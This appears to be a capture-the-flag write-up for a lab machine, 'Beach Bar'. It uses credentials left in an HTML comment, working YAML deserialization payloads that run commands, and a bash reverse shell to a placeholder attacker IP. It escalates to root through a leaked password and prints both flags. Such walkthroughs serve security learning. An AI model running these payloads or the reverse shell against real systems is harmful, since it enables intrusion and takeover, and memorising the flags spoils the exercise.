

# Beach Bar :

At the Beach Bar, even shell access is complimentary. The jukebox takes requests. Any kind

## 1. Reconnaissance & Initial Access

### Information Gathering

After deploying the lab machine and navigating to the web interface at `http://<TARGET_IP>`, a DJ booth sign-in interface was presented.



Inspection of the page source revealed an explicit developer note left inside an HTML comment:

HTML

```
<!--
  staff note: the demo DJ login is still enabled for the soft opening.
  dj / dj  -- swap this before the season starts (ticket BAR-7)
-->
```

Using the discovered soft-opening credentials:

- **Username:** `dj`
- **Password:** `dj`

Authentication succeeded, granting access to the main DJ dashboard (**Tonight on the floor**).


## 2. Exploitation (Insecure YAML Deserialization)

### Vulnerability Identification

Navigating to the **Import** tab opens a interface allowing the user to paste YAML content directly or upload a `.yml` file.


By analyzing the structure of an exported sample playlist (`/export`), the expected schema was identified:

YAML

```
# Beach Bar jukebox playlist export
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
    - artist: Khruangbin
      title: Maria Tambien
    - artist: Men I Trust
      title: Show Me How
    - artist: Crumb
      title: Locket
```

In Python web applications, deserializing untrusted YAML input using `yaml.load(content, Loader=yaml.Loader)` allows arbitrary object instantiation, enabling Remote Code Execution (RCE) via constructor tags like `!!python/object/apply`.

you can read more about it here : [YAML Deserialization | CTF Support](https://ctf.support/web/python/yaml-deserialization/)

### Executing Commands via Payload

To verify execution and directly read command outputs on the web interface, the `subprocess.check_output` method was injected into the `name` field.

#### Directory Enumeration Payload:

YAML

```
playlist:
  name: !!python/object/apply:subprocess.check_output [["ls", "/home"]]
  vibe: test
  tracks: []
```

**Output:**

Python

```
{'name': b'bartender\nubuntu\n'}
```

#### User Flag Retrieval Payload:

YAML

```
playlist:
  name: !!python/object/apply:subprocess.check_output [["bash", "-c", "cat /home/bartender/user.txt"]]
  vibe: test
  tracks: []
```

**Resulting Output:**

```
THM{y4ml_pl4yl1st_pwns_th3_b34ch}
```

## 3. Escalation to Interactive Shell

To streamline post-exploitation, a reverse shell payload was submitted via the import form.

### Reverse Shell Payload:

YAML

```
playlist:
  name: !!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'"]
  vibe: test
  tracks: []
```

A netcat listener on the attacker machine caught the incoming connection:

Bash

```
$ nc -lvnp 4444
Connection received on <TARGET_IP>
bartender@tryhackme-2404:/opt/beach-bar/webapp$
```

## 4. Privilege Escalation

### Process Inspection

Inspecting the application directory structure revealed an installed service located at `/opt/beach-bar/jukeboxd/jukeboxd.py`. Checking running system processes using `ps aux` yielded actionable administrative details:

Bash

```
bartender@tryhackme-2404:/$ ps aux | grep jukebox
root         608  0.0  0.2  20176 11712 ?        Ss   06:57   0:00 /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
```

### Key Discoveries:

1. The process `jukeboxd.py` runs with **root** privileges.
2. A plaintext password parameter was exposed in the command line invocation: `-stream-pass SunsetSpritz2024!`.

### Source Code Verification

Reviewing `/opt/beach-bar/webapp/app.py` confirmed the vulnerable deserialization mechanism powering the import route:

Python

```
@app.route("/import", methods=["GET", "POST"])
@login_required
def import_playlist():
    # ...
    try:
        parsed = yaml.load(content, Loader=yaml.Loader) # Vulnerable Unsafe Loader
        result = parsed
    except Exception as e:
        error = f"Could not load playlist: {e}"
    # ...
```

### Root Access & Flag Retrieval

Testing the exposed stream password (`SunsetSpritz2024!`) for credential reuse against the `root` account succeeded:

Bash

```
bartender@tryhackme-2404:/$ su root
Password: SunsetSpritz2024!

root@tryhackme-2404:/# cat /root/root.txt
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}
```

## 5. Flags Captured

- **User Flag:** `THM{y4ml_pl4yl1st_pwns_th3_b34ch}`
- **Root Flag:** `THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}`

##